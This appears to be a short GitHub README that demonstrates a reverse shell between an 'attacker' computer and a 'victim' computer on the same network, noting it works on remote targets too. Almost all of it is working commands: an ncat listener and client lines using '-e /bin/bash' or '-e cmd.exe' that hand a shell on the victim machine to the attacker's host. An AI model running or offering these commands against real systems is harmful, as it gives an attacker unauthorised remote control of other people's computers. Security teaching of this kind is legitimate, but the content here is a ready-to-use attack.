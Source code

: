 ## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer).
## *Can be done on a remote target but local targets are faster for a demo, result is identical*

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>`


### 3) Connect client to server:
**On Linux/Bash:**

Run `ncat <server-internal-ip> <port> -e /bin/bash`

**On Windows:**

Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
